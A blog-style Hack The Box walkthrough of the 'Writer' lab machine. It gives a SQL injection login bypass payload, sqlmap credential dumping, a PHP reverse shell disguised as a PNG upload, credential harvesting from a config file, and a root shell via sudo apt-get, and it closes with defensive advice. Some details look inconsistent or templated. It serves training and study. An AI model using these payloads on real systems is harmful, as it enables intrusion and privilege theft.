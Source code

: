 ```yaml
---
title: "Hack The Box: Writer Machine Writeup"
date: 2024-10-20
draft: false
author: "Your Name"
tags: ["ctf", "hack the box", "writeup", "penetration testing"]
categories: ["CTF", "Offensive Security"]
image: /images/blogs/htb-writer.png
description: "Complete walkthrough of HTB Writer machine featuring SQL injection, file upload bypass, and privilege escalation"
---
```


Writer is a medium-difficulty Linux machine on Hack The Box that teaches valuable lessons about SQL injection, authentication bypass, and Linux privilege escalation.

## Machine Information

- **Name**: Writer
- **OS**: Linux
- **Difficulty**: Medium
- **Points**: 30
- **Release Date**: July 31, 2021

## Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -oA writer 10.10.11.101
```

**Results:**
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp  open  http    Apache httpd 2.4.41
139/tcp open  netbios-ssb Samba smbd 4.6.2
445/tcp open  netbios-ssb Samba smbd 4.6.2
```

### Web Enumeration

Visiting the website reveals a blog platform with authentication.

```bash
gobuster dir -u http://10.10.11.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Key findings:
- `/administrative` - Admin login panel
- `/static` - Static resources
- `/about` - About page

## Initial Foothold

### SQL Injection

Testing the login form at `/administrative` reveals SQL injection vulnerability:

**Payload:**
```
Username: admin' OR '1'='1'-- -
Password: anything
```

This bypasses authentication, but we need to extract actual credentials for a proper shell.

### SQLMap Exploitation

```bash
sqlmap -r login.req --batch --dump --level=5 --risk=3
```

**Discovered credentials:**
```
admin:password123hash
```

### File Upload Bypass

After logging in, we can upload images. Testing reveals:
1. File extension filtering
2. Content-type validation
3. No server-side validation of actual file content!

**Payload creation:**
```bash
# Create PHP reverse shell
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Change magic bytes to appear as PNG
printf '\x89\x50\x4E\x47' | cat - shell.php > shell.php.png
```

Upload the file and trigger it by visiting the upload path.

### Reverse Shell

```bash
# Listener
nc -lvnp 4444

# Trigger
curl http://10.10.11.101/uploads/shell.php.png
```

Got shell as `www-data`!

## Privilege Escalation

### User Enumeration

```bash
cat /etc/passwd | grep bash
```

Found user: `kyle`

### Finding Credentials

Searching for configuration files:
```bash
find / -name "*.conf" 2>/dev/null | grep -v proc
```

Discovered database credentials in `/var/www/writer.htb/writer.conf`:
```
DB_USER=kyle
DB_PASS=KyleSecretPassword!
```

### SSH as Kyle

```bash
ssh kyle@10.10.11.101
# Password: KyleSecretPassword!
```

**User flag captured!** 🚩

## Root Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Output:
```
User kyle may run the following commands on writer:
    (root) NOPASSWD: /usr/bin/apt-get
```

### GTFOBins Exploitation

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) for apt-get:

```bash
sudo apt-get changelog apt
!/bin/bash
```

This spawns a root shell!

**Root flag captured!** 🚩

## Key Lessons Learned

1. **SQL Injection remains prevalent**: Always test authentication forms
2. **File upload validation**: Client-side validation is insufficient
3. **Password reuse**: Database credentials were reused for SSH
4. **Sudo misconfigurations**: Always check sudo permissions with `sudo -l`
5. **GTFOBins is your friend**: Know your privilege escalation vectors

## Defensive Recommendations

For blue teamers, this machine highlights several defensive measures:

1. **Use prepared statements** for all database queries
2. **Validate file uploads** on the server-side, check magic bytes
3. **Implement least privilege**: Web user shouldn't have database admin rights
4. **Avoid password reuse**: Use unique credentials for each service
5. **Audit sudo permissions**: Follow principle of least privilege

## Tools Used

- `nmap` - Port scanning
- `gobuster` - Directory enumeration
- `sqlmap` - SQL injection exploitation
- `Burp Suite` - Request manipulation
- `nc` - Reverse shell listener

## Timeline

- 00:00 - Initial recon and port scanning
- 00:15 - Discovered SQL injection in login
- 00:45 - Extracted credentials with sqlmap
- 01:00 - Found file upload bypass
- 01:30 - Got initial shell as www-data
- 02:00 - Privilege escalation to kyle
- 02:30 - Root privilege escalation via apt-get

**Total time:** 2.5 hours

---

*Have questions about the walkthrough? Find me on [Twitter](https://twitter.com/yourusername) or [LinkedIn](https://linkedin.com/in/yourprofile).*

**Tags for easy finding:** #HackTheBox #CTF #Writeup #PenetrationTesting #PrivilegeEscalation
